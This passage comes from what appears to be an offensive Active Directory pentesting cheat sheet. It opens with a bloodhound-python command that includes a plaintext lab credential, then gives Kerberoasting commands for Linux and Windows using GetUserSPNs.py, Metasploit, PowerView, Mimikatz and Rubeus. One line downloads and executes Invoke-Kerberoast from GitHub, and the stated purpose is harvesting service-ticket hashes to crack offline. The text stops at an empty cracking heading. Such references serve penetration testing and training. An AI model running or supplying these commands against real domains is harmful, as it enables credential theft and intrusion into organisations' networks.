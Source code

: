 ```ps
proxychains bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all --dns-tcp
```


# Attacking AD
[back to top](#index)


## Kerberoasting

*The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.*
*You can know that a user account is being used as a service because the property "ServicePrincipalName" is not null.*

**You need valid credentials inside the domain.**

### Kerberoast From Linux

```bash
msf> use auxiliary/gather/get_user_spns

GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Kerberoast From Windows

From memory to disk
```ps
Get-NetUser -SPN | select serviceprincipalname #PowerView, get user service accounts

#Get TGS in memory
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local 
 
klist #List kerberos tickets in memory
 
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder
```

On-Disk (more visible)
```cmd
# Powerview
Request-SPNTicket -SPN "<SPN>" #Using PowerView Ex: MSSQLSvc/mgmt.domain.local

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
### Kerberoast Cracking

